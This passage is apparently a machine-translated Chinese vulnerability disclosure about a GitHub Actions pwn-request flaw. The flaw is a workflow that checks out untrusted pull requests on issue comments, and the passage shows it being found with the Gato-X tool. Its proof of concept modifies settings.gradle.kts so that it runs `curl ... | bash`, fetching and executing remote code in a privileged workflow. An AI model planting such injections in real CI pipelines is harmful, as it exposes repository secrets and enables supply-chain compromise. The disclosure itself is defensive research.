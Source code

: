 ```
},
```  
  
您可能会注意到，当 Gato-X 获取存储库时，它没有将其检测为 Pwn 请求，因为该pwn_request_risk字段为空。这是因为当时，Gato-X 没有通过 cli 检查 PR 的特定检测gh，但围绕 r 使用的上下文pr_numbe足以确定该存储库值得调查。  
  
  
2. 代码审查  
  
该漏洞的独特之处可能也是之前没有人发现它的原因。该工作流在 上运行issue_comment，但实际上并未引用通常在操作注入漏洞的资源中调用的上下文变量。  
  
首先，工作流程检索拉取请求的 HTML URL。接下来，它从 HTML URL 中解析出 PR 号。最后，它将其设置为该步骤的输出值。  
```
- name: Get PR number
     id: pr_number
     if: ${{ github.event_name == 'issue_comment'}}
     run: |
       PR_URL="${{ github.event.issue.pull_request.url }}"
       PR_NUMBER=${PR_URL##*/}
       echo "number=$PR_NUMBER" >> $GITHUB_OUTPUT
```  
  
后续步骤使用上一步输出中的 PR 编号，并通过上下文表达式将其传递到包含 的运行步骤gh pr checkout。  
```
- name: Checkout Pull Request
    if: github.event_name == 'issue_comment'
    env:
      GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    run: |
      gh pr checkout ${{ needs.should_run_it.outputs.pr_number }}

```  
  
这凸显了在检查 GitHub Actions 工作流程中是否存在漏洞时，从源到汇分析的重要性。  
  
签出后，工作流程最终运行了集成测试，我可以对其进行修改，以证明我可以在特权工作流程的上下文中执行任意代码。  
  
  
2.1 Gato-X – 即将推出！  
  
我希望尽快开源 Gato-X 的 alpha 版本。我当前的目标是通过从每个 if 检查构建表达式树并在触发事件的外部参与者的上下文中对其进行评估来降低误报率。  
  
我迫不及待地想发布它，因为该工具的速度和发现晦涩案例的结合使安全专业人员能够以前所未有的规模在数小时内识别这些问题。  
  
  
3. 概念验证  
  
为了证明此漏洞，美国东部时间 2 月 27 日 10:45，我使用有效负载创建了草稿拉取请求，并能够证明该漏洞以及对应用程序令牌秘密的访问。  
  
我想对 Boost Security 的 Living off the Pipeline 项目表示赞赏。我能够使用Gradle 的现成负载作为我的代码注入点。像 LoTP 这样的项目使安全研究人员更容易证明漏洞，但也为开发人员提供了一份文件列表，他们应该小心，以确保如果工作流在有风险的触发器上运行，外部参与者无法修改。  
  
您可以在下面看到工作流程如何访问机密，然后使用grade/grade-build-action.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexnzictf4LQ51vt1O6y5BAzq0l3Lru3IQyMfDrtjRc2avlHOsGPZxQv8JfF3ia7A30U978eblNfojQ/640?wx_fmt=png&from=appmsg "")  
  
我修改了settings.gradle.kts我的 fork 中的文件，以从文件中提取代码并将其通过管道传输到 bash。  
```
// For VRP Test, not malicious.
fun String.runCommand(): String? = try {
    ProcessBuilder("/bin/sh", "-c", this)
        .redirectOutput(ProcessBuilder.Redirect.PIPE)
        .redirectError(ProcessBuilder.Redirect.PIPE)
        .start()
        .inputStream.bufferedReader().readText()
} catch (e: Exception) {
    e.printStackTrace()
    null
}
 
val output = "curl -sSfL https://github.com/Flank/flank/raw/88e5a56dd3ed78f4f192eadf31634c013dbbf060/README | bash".runCommand()
```